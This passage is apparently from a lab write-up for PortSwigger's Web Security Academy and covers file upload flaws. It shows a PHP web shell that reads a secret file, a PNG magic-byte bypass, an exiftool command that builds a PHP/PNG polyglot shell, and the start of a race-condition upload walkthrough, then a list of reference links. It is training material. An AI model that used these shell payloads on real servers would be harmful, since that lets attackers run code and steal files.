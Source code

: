         <?php echo file_get_contents("/home/carlos/secret"); ?>
        ...
    ...
    ```

    v1:
    - Craft and upload a shell with a **PNG** **[file signature][file_upload_vulnerabilities_file_signature]**, the message  
    ***The file avatars/shell_fileSignaturePNG.php has been uploaded.*** will appear.

    ```plaintext
    89 50 4E 47 0D 0A 1A 0A
    ```

    ```plaintext
    mbJNQTJ3knonwoJvxyCPW09LH8aICSGC
    ```

    v2:
    - Craft and upload a **polyglot** **PHP/PNG** shell with **exiftool**, the message  
    ***The file avatars/shell_polyglot.php has been uploaded.*** will appear.

    ```bash
     exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" 1.png -o shell_polyglot.php
    ```

    ```plaintext
    mbJNQTJ3knonwoJvxyCPW09LH8aICSGC
    ```

7. #### **Web shell upload via race condition**

    > 📝 **Note:**
    <mark>***Due to the generous time window for this race condition, it is possible to solve this lab
    by manually sending two requests in quick succession using Burp Repeater.***</mark>

    - Upload an image and take note of the URL flow and the parameters sent, the message  
    ***The file avatars/1.png has been uploaded.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="1.png"
        Content-Type: image/png

        PNG
        ...
    ...
    https://<lab_url>/files/avatars/1.png       GET
    ...
    ```

    - Try to upload the shell, the message  
    ***Sorry, only JPG & PNG files are allowed. Sorry, there was an error uploading your file.*** will appear.


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind